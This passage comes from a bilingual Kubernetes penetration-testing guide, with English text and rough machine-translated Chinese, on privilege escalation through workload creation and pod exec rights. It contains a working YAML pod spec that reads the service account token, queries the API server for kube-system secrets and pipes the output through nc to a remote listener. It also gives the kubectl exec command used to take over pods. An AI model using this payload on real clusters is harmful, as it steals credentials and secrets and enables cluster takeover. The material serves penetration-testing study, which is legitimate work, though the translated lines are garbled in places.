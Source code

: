 ```yaml
      serviceAccountName: bootstrap-signer
      automountServiceAccountToken: true
      hostNetwork: true
      containers:
      - name: alpine
        image: alpine
        command: ["/bin/sh"]
        args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
```

In line 6 you can find the object “spec” and children objects such as “**template**” in line 10. These objects hold the configuration for the task we wish to accomplish. Another thing to notice is the "**serviceAccountName**" in line 15 and the “**containers**” object in line 18. This is the part that relates to creating our malicious container.

在第6行中，您可以在第10行中找到对象“规格”和孩子的对象，例如“ ** template **”。这些对象保留了我们希望完成的任务的配置。 要注意的另一件事是第15行中的“ ** serviceaccountname **”和第18行中的“ **容器**”对象。这是与创建我们的恶意容器有关的部分。

Kubernetes API documentation indicates that the “**PodTemplateSpec**” endpoint has the option to create containers. And, as you can see: **deployment,** **daemonsets, statefulsets, replicationcontrollers, replicasets, jobs and cronjobs can all be used to create pods**:

Kubernetes API文档指出“ ** podtemplatespec **”端点具有创建容器的选项。 而且，如您所见：**部署，** ** daemonset，statefulsets，ReplicationControllers，Replicasets，Jobs和Cronjobs都可以用于创建Pods **：

![](https://www.cyberark.com/wp-content/uploads/2019/08/Kube-Pentest-Fig-8.png)

**So, the privilege to create or update tasks can also be abused for privilege escalation in the cluster.**

**因此，创建或更新任务的特权也可以滥用以在集群中的特权升级。**

### **Pods Exec**

**Pod exec** is an option in kubernetes used for **running commands in a shell inside a pod**. This privilege is meant for administrators who want to **access containers and run commands**. It’s just like creating a SSH session for the container.

** POD Exec **是用于**在Pod **内的外壳中运行命令的Kubernetes中的一个选项。 此特权是针对想要**访问容器并运行命令**的管理员的。 就像为容器创建SSH会话一样。

If we have this privilege, we actually get the ability **to take control of all the pods**. In order to do that, we needs to use the following command:

如果我们拥有这种特权，我们实际上可以控制所有POD **。 为此，我们需要使用以下命令：

```bash
kubectl exec -it <POD_NAME> -n <NAMESPACE> -- sh
```

Note that as you can get inside any pod, you can abuse other pods token just like in [**Pod Creation exploitation**](./#pod-creation) to try to escalate privileges.

请注意，由于您可以进入任何吊舱，因此您可以像[** Pod Creation剥削**]（./# pod-creation）一样滥用其他吊舱令牌，以尝试升级特权。
